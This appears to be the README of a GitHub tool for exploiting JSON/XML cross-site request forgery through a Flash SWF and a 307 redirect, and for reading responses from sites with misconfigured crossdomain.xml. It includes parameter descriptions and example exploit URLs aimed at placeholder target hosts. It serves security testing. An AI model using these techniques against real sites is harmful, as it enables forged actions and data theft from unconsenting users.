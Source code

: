 ## Purpose
This repository was created to simplify the SWF-based JSON CSRF exploitation. It should work also with XML (and any other) data using optional parameters. Also it can be used for easy exploitation of crossdomain.xml misconfiguration (no need to compile .swf for each case).

## Variations of target configuration
1) Target site has no crossdomain.xml, or secure crossdomain.xml, not allowing domains you can control. In this case you can't get the response from target site, but still can conduct CSRF attacks with arbitrary Content-Type header, if CSRF protection relies only on the content-type (e.g. checking it for being specific type). In this case usage of 307 redirect is required, to bypass crossdomain.xml (it will be requested only after the csrf will take place).
2) Target site has misconfigured crossdomain.xml, allowing domains you can control. In this case you can conduct both CSRF and response reading attacks. Usage of 307 redirect is not required.

## Instructions
The .swf file take 3 required and 2 optional parameters:
1) **jsonData** - apparently, JSON Data:) Can be other type of data, if optional `ct` param specified. Can be empty
2) **php_url** - URL of the 307 redirector php file. Can be empty (in this case SWF will request endpoint without 307 redirect - and likely will fail, if crossdomain.xml is secure, or not exist)
3) **endpoint** - target endpoint, which is vulnerable to CSRF, or, if you're exploiting insecure crossdomain.xml, URL which response you want to read.
4) **ct** (optional) - specify your own Content-Type. Without this parameter it will be `application/json`
5) **reqmethod** (optional) - specify your own request method. Without this parameter it will be `POST`

Place test.swf and test.php on your host, then simply call the SWF file with the correct parameters.

**(As mentioned by [@ziyaxanalbeniz](https://twitter.com/ziyaxanalbeniz)) - we actually don't need crossdomain.xml from this repo, if test.php and test.swf are on same domain). Place it on your host if you also testing locally or across different domains.**

Example call:
```
http[s]://[yourhost-and-path]/test.swf?jsonData=[yourJSON]&php_url=http[s]://[yourhost-and-path]/test.php&endpoint=http[s]://[targethost-and-endpoint]
```
e.g.
https://example.com/test.swf?jsonData={"test":1}&php_url=https://example.com/test.php&endpoint=https://sometargethost.com/endpoint

Using HTML wrapper (read.html) with test.swf, parameters are same:
https://example.com/read.html?jsonData={"test":1}&php_url=https://example.com/test.php&endpoint=https://sometargethost.com/endpoint
In case your target has crossdomain.xml misconfigured, or allowing your domain, you will also get the response using this wrapper. In this case you can use wrapper without 307 redirect (no need of `php_url` parameter).
This is useful for Chrome >=62, where you can't access SWF directly, or if you want to exploit insecure crossdomain.xml. Note: if you are exploiting insecure crossdomain.xml, if the target site uses `https`, your origin should also use https for successful response reading.

If you have the questions regarding this repository - ping me in the Twitter: [@h1_sp1d3r](https://twitter.com/h1_sp1d3r)

## Example cases
1) Exploit JSON CSRF, POST-based, 307 redirect:
```
https://example.com/test.swf?jsonData={"test":1}&php_url=https://example.com/test.php&endpoint=https://sometargethost.com/endpoint
```
or, using HTML wrapper:
```
https://example.com/read.html?jsonData={"test":1}&php_url=https://example.com/test.php&endpoint=https://sometargethost.com/endpoint
```
2) Exploit XML CSRF, POST-based, 307 redirect:
```
https://example.com/test.swf?jsonData=[xmldada]&php_url=https://example.com/test.php&endpoint=https://sometargethost.com/endpoint&ct=application/xml
```
3) Exploit insecure crossdomain.xml (read data from target), GET-based, no 307 redirect:
```
https://example.com/read.html?jsonData=&endpoint=https://sometargethost.com/endpoint&reqmethod=GET
```
4) Exploit insecure crossdomain.xml (read data from target), POST-based, any content-type supported, no 307 redirect:
```
https://example.com/read.html?jsonData=somedata&endpoint=https://sometargethost.com/endpoint&ct=text/html
```

## Cross Browser Testing

This project is tested on following browsers as follows:

![1x](https://user-images.githubusercontent.com/24297694/31861974-dd74a5ce-b73e-11e7-8546-49e1fa29e991.JPG)

Notes: ✓ - Works, X - doesn't work


## Thanks
Special thanks to the [@emgeekboy](https://twitter.com/emgeekboy), who inspired me to make this repository and most functionality, and [@hivarekarpranav](https://twitter.com/hivarekarpranav), who did the cross-browser and request methods research.
Related blog posts about this: 
* http://www.geekboy.ninja/blog/exploiting-json-cross-site-request-forgery-csrf-using-flash/
* http://research.rootme.in/forging-content-type-header-with-flash/
* http://resources.infosecinstitute.com/bypassing-csrf-protections-fun-profit/#gref
* https://medium.com/@know.0nix/bypassing-crossdomain-policy-and-hit-hundreds-of-top-alexa-sites-af1944f6bbf5 - thanks to the [@knowledge_2014](https://twitter.com/knowledge_2014), who inspired me to implement the response reading component


## Disclaimer
This repository is made for educational and ethical testing purposes only. Usage for attacking targets without prior mutual consent is illegal.
By using this testing tool you accept the fact that any damage (dataleak, system compromise, etc.) caused by the use of this tool is your responsibility.

## FAQ
1. Can we read response from server?

 Answer: no. Because of SOP. Still, if crossdomain.xml on the target host exist, and misconfigured - in this case yes.
 
2. Does it work with requests other than GET/POST?

 Answer: no.
 
3. Does it possible to craft custom headers like X-Requested-With, Origin or Referrer?

 Answer: no (it was possible in the past, but not now).

## Update
Starting with Chrome 62, direct link to SWF file may not work. If this behavior happens, use HTML wrapper.

01.01.2018 - added HTML wrapper (`read.html`, should be used with `test.swf`) for better experience with Chrome. Usage and parameters are same as in case with test.swf. It supports also insecure crossdomain.xml exploitation (able to show the response from the target endpoint).

## Commits, PRs and bug reports are welcome!
